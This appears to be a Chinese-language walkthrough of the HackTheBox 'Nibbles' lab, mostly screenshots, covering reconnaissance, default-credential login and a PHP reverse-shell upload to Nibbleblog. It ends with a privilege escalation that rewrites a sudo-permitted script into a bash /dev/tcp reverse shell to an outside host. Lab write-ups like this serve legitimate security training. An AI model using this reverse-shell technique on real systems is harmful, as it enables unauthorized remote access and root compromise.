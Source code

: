 ```yaml
---
{"dg-publish":true,"permalink":"/hackthebox 靶场/htb 靶场 nibbles/","tags":["靶场","hackthebox","oscp"]}
---
```



![image.png](https://s2.loli.net/2025/06/14/mT8KhDLfQ9REZlx.png)
[[思/htb Nibbles 靶场 思\|htb Nibbles 靶场 思]]
## 扫描端口
![image.png](https://s2.loli.net/2025/06/14/IbxPFeKqh9sSTgX.png)

发现有个 22 端口和 80 端口

## 80 端口信息收集
打开页面一开始，是使用 dirsearch 和 feroxbuster 扫描。但感觉不对劲，没有出货

只能在主页面找找，看一下源码。找到路径了
![image.png](https://s2.loli.net/2025/06/14/vIfHAyrXZB736ex.png)

![image.png](https://s2.loli.net/2025/06/14/6LwTt3mpxarqflg.png)

查看 readme 知道版本号

![image.png](https://s2.loli.net/2025/06/14/RxQpNoG568rqtyn.png)

## 漏洞利用
搜索 nibbleblog 4.0.3 找到一个可以利用的漏洞。
![image.png](https://s2.loli.net/2025/06/14/XJ6o7vwLy1Az35C.png)

但需要找到账户密码，只能继续寻找，又发现一个

![image.png](https://s2.loli.net/2025/06/14/euDX6WE9G25Qdip.png)

苦苦寻找找到一个文件里面有说账户名是 admin
![image.png](https://s2.loli.net/2025/06/14/3RnhfdcXzGOox5T.png)


用 hydra 爆破一下密码。试了很多遍都没有用。只能想办法利用 my images 上传图片的漏洞

但貌似也要登录进去。

看了 wp，说是用了默认密码 admin/nibbles

![image.png](https://s2.loli.net/2025/06/14/Y3lqjwiodIKQCk1.png)

在 my_image 上传一个 php 反弹 shell 文件

![image.png](https://s2.loli.net/2025/06/15/YqhTVLe2yEoCRIF.png)

在这个目录中会变成 image. jpg，点一下就能反弹成功

![image.png](https://s2.loli.net/2025/06/15/oqwAOnMb3SKVhGi.png)


![image.png](https://s2.loli.net/2025/06/15/63KHiwoY4rFCm5x.png)

## 提权
![image.png](https://s2.loli.net/2025/06/15/6pbiofWB5SkNcOG.png)

找到第一个 flag

![image.png](https://s2.loli.net/2025/06/15/bSBLPKh3voqzrG8.png)

发现这个脚本可以不用密码执行 root 权限

修改一下这个脚本，改成反弹 shell

```
魔改
cat > monitor.sh <<EOF
#!/bin/bash
0<&196;exec 196<>/dev/tcp/10.10.16.2/4242; sh <&196 >&196 2>&196
EOF
# 
```

![image.png](https://s2.loli.net/2025/06/15/rRxeflTiEJq8dAp.png)

![image.png](https://s2.loli.net/2025/06/15/blyju8h2LPFO7W4.png)

sudo 权限运行脚本，即可获得反弹 shell

![image.png](https://s2.loli.net/2025/06/15/uQtbUaoi75ZkMfx.png)
